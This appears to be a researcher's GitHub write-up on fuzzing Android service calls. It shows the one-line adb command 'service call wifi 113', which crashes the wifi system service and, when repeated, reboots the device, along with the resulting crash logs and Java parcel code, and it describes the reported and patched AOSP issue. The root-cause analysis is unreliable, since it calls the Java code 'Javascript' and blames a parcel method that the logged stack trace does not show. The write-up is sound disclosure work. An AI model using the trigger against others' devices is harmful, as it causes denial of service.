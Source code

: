 # Silly calls and silly bugs 

The idea stems from fuzzing random values of a service and seeing what crashes. Most crashes are OOM and can be seen to be reported here to ASOP:

https://issuetracker.google.com/issues/327111285

https://issuetracker.google.com/issues/326278126




Android is made up of many components as shown below there are several vectors, I chose service calls as they were low-level enough to hopefully get some bugs. 

![Android Stack](https://source.android.com/static/images/android-stack.svg)

Service call layout:
$ adb shell SERVICENAME values, int 64, float, string, int 32 
The idea is simple, randomize these calls, creating a dumb fuzzer. 


Covering the crash, after we send our service call, to the wifi stack, we can see the following crash, if we continie to spam the device with the packets after the null pointer it then shuts off the device and causes a reboot, for some reason I do not know why. But this is what it does. It has since been patched and can be seen [here](https://issuetracker.google.com/issues/326278126) issue 326278126 in AOSP as patched, I may have submitted it the wrong way to the Android team, I thought if you posted directly on their bugs some bugs could get noticed by the security team where this is not the case, I then had to then re-report the bug to product security and hopefully, this meets the criteria for a CVE as it does cause a denial of service in the system due to a Null Pointer Dereference.

```bash
$ adb adb shell service call wifi 113

$ adb logcat -b crash
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:12:15.126 14876 30004 E AndroidRuntime: FATAL EXCEPTION: lowpool[28]
02-22 14:12:15.126 14876 30004 E AndroidRuntime: Process: com.google.android.gms.persistent, PID: 14876
02-22 14:12:15.126 14876 30004 E AndroidRuntime: DeadSystemException: The system died; earlier logs will point to the root cause
02-22 14:15:18.576 30232 30495 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:15:18.576 30232 30495 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:18:15.797 15657 15912 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
```
Now if the Javascript code is then reviewed this can be traced to the following paramaters of the JS object. 

### - android.net.wifi.WifiEnterpriseConfig
```Java 
public static final Creator<WifiEnterpriseConfig> CREATOR =
            new Creator<WifiEnterpriseConfig>() {
                public WifiEnterpriseConfig createFromParcel(Parcel in) {
                    WifiEnterpriseConfig enterpriseConfig = new WifiEnterpriseConfig();
                    int count = in.readInt();
                    for (int i = 0; i < count; i++) {
                        String key = in.readString();
                        String value = in.readString();
                        enterpriseConfig.mFields.put(key, value);
                    }
                    enterpriseConfig.mCaCert = readCertificate(in);
                    PrivateKey userKey = null;
                    int len = in.readInt();
                    if (len > 0) {
                        try {
                            byte[] bytes = new byte[len];
                            in.readByteArray(bytes);
                            String algorithm = in.readString();
                            KeyFactory keyFactory = KeyFactory.getInstance(algorithm);
                            userKey = keyFactory.generatePrivate(new PKCS8EncodedKeySpec(bytes));
                        } catch (NoSuchAlgorithmException e) {
                            userKey = null;
                        } catch (InvalidKeySpecException e) {
                            userKey = null;
                        }
                    }
                    enterpriseConfig.mClientPrivateKey = userKey;
                    enterpriseConfig.mClientCertificate = readCertificate(in);
                    return enterpriseConfig;
                }
```

The trigger of the crash is the following, by simply calling wifi 113 

``` Java 
enterpriseConfig.mFields.put(key, value);
```

The mfields are used as a hash reprensetation of the keys used for authentication in the WifiEnterpriseConfig which would make sense as there needs to be some form of verification/attistation for WIFI. By giving this a null or simply call the service without any other stages for authentication will simpaly trigger the defrffrence, though this could be triggered ina real situation, if just a null object was passed to the device when it is searching for wifi. 
